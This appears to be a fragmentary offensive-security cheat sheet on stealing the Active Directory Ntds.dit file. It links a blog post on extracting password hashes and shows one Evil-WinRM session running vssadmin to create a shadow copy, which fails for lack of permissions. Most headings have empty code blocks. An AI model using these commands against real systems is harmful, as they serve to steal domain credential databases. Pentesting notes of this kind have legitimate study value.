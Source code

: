 # Ntds.dit

### [Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)
```

```

### Using VSSAdmin to steal the Ntds.dit file
```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> vssadmin create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Error: You don't have the correct permissions to run this command.  Please run this utility from a command
window that has elevated administrator privileges.
```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```